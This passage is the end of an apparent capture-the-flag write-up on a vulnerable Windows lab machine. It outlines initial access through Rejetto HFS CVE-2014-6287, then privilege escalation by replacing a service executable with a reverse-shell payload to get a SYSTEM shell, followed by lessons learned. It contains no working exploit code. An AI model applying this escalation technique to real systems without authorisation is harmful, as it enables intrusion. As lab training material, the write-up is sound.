        ↓
Generate ASCService.exe Reverse-Shell Payload
        ↓
Stop the Service and Replace Its Executable
        ↓
Restart the Service
        ↓
Receive a Reverse Shell as NT AUTHORITY\SYSTEM
        ↓
Retrieve root.txt
```

The alternative initial-access path replaced the Metasploit HFS module with Exploit-DB entry `39161` and a Windows Netcat executable. The subsequent privilege-escalation objective remained the same: identify and exploit the vulnerable service configuration.

---

# 12. Key Vulnerabilities

| Vulnerability or Weakness | Impact |
|---|---|
| Exposed Rejetto HFS 2.3 service | Provided a remotely accessible application to investigate for known vulnerabilities. |
| CVE-2014-6287 | Allowed the documented initial-access exploit path against the vulnerable HFS application. |
| Insufficient protection of a privileged service executable | Could permit replacement of the executable and execution under the service's security context. |
| Service restart capability combined with executable replacement | Could allow the replacement payload to execute without requiring an administrator to launch it manually. |

---

# 13. Lessons Learned

### 13.1. Enumerate Before Exploiting

Nmap identified the target's services and revealed Rejetto HFS 2.3 on port `8080`. Identifying the application and version made it possible to focus vulnerability research on a specific service rather than attempting unrelated attacks.

### 13.2. Inspect Webpage Source

The Employee of the Month question demonstrated that HTML source can reveal information hidden from the visible webpage. Checking image filenames and page structure is a useful reconnaissance technique.

### 13.3. Research the Exact Vulnerability

Identifying CVE-2014-6287 connected the observed service to a known remote command execution vulnerability. The exploit module and its configuration should still be checked before execution, because multiple modules may appear in a search.

### 13.4. Distinguish Initial Access from Privilege Escalation

The initial foothold as `bill` provided access to the machine, but it did not automatically provide administrative privileges. PowerUp was used to search for additional weaknesses that could enable escalation.

### 13.5. Understand Service Binary Replacement

A privileged service can become a privilege-escalation path when a lower-privileged user has sufficient permissions to replace its executable and cause the service to restart. The executable's location, write permissions, service-control permissions, and execution identity all matter.

### 13.6. Verify the Result

A successful exploit command or service restart does not, by itself, prove that privilege escalation succeeded. Confirm the actual account in the resulting shell with:

```cmd
whoami
```

The reported `nt authority\system` identity is the evidence that the documented alternative shell reached the LocalSystem security context.

### 13.7. Keep Payload and Listener Configuration Consistent

A reverse-shell payload must connect to an address and port that the attacking machine can receive. The payload's `LHOST` and `LPORT` values must match the attacker's reachable address and active listener. Different workflows in these notes use ports `443`, `4443`, and `4444`; these are separate configurations, not interchangeable values.

### 13.8. Record Reproducible Evidence

For a complete writeup, record the actual user and root flags, the successful exploit output, the relevant PowerUp finding, and the identity of the elevated shell. These details distinguish verified results from expected behavior and make the attack path easier to reproduce.
